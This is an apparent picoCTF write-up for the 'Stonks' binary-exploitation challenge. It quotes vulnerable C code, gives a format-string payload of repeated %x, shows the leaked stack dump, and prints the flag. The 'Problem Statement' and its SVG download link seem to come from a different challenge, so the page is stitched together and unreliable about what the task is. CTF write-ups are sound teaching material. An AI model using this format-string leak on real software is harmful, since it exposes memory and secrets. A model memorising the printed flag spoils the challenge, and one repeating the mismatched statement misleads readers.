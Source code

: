 # Stonks

## Problem Statement

Download this image file and find the flag.
[Download image file](https://artifacts.picoctf.net/c/138/drawing.flag.svg)
## Type

Binary Exploitation

## Hints

1. Okay, maybe I'd believe you if you find my API key.

## Approach
On reading the code we can see that this statement is vulnerable
```
	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```
There is no string formatting which means we can extract hex values.

so we input a bunch of `%x%x%x%x%x%x%x%x` and get 
```8d6f3d0804b00080489c3f7fa3d80ffffffff18d6d160f7fb1110f7fa3dc708d6e18028d6
f3b08d6f3d06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e346364626
1653532ffe0007df7fdeaf8f7fb14405b93470010f7e40ce9f7fb20c0f7fa35c0f7fa3000ffe
08bd8f7e3168df7fa35c08048ecaffe08be40f7fc5f09804b000f7fa3000f7fa3e20ffe08c18
f7fcbd50f7fa48905b934700f7fa3000804b000ffe08c188048c868d6d160ffe08c04ffe08c1
88048be9f7fa33fc0ffe08cccffe08cc41
```
as our token, on converting this we get our flag in big endian, anfter switching the endians we get our flag.



## Flag

picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}